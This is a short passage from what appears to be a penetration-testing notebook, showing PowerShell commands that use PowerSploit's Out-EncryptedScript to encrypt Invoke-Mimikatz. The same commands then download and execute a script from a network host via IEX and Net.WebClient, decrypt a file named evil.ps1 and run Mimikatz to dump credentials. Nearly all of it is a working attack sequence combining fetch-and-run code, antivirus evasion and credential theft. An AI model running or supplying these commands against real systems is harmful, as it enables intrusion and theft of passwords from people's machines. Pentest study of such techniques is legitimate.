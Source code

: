 	http://192.168.0.108/ps/powersploit/ScriptModification/Out-EncryptedScript.ps1
	>Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password shabiisme -Salt 123456
![image](/assets/Pentest_Note/master/img/94.png)
![image](/assets/Pentest_Note/master/img/95.png)

	PS > IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.108/ps/powersploit/ScriptModification/Out-EncryptedScript.ps1")
	PS > [String] $cmd = Get-Content .\evil.ps1
	PS > Invoke-Expression $cmd
	PS > $decrypted = de shabiisme 123456
	PS > Invoke-Expression $decrypted
	PS > Invoke-Mimikatz